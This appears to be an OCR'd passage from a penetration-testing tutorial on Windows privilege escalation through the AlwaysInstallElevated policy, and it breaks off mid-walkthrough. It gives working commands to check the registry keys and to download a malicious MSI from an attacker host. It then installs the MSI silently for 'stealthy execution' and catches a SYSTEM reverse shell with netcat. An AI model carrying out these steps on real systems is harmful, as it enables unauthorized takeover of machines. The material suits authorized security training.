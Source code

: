 ### ✅ Step 1 – Verify vulnerability

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Check if both are `0x1`.

### ✅ Step 2 – Transfer the malicious MSI to target

You can use:

✔ PowerShell’s `Invoke-WebRequest`
✔ Python’s HTTP server
✔ SMB shares

Example:

```powershell
Invoke-WebRequest -Uri http://<your-ip>:8000/shell.msi -OutFile shell.msi
```

### ✅ Step 3 – Run the MSI

```powershell
msiexec /quiet /qn /i shell.msi
```

The `/quiet` and `/qn` options suppress GUI popups → stealthy execution.

### ✅ Step 4 – Catch the shell

On your attacking machine, run:

```bash
nc -lvnp 4444
```

Once the MSI is installed, SYSTEM shell opens.

---

## ➤ **4.4.5 Example Scenario Walkthrough**

**Target System:**

* Windows 10
* Both registry keys set to `1`
* User privileges → `bob`
* MSI installation allowed

**Steps:**

1. Check AlwaysInstallElevated → vulnerable confirmed.
2. Create reverse shell MSI using `msfvenom`.
3. Upload MSI to target using Python server:

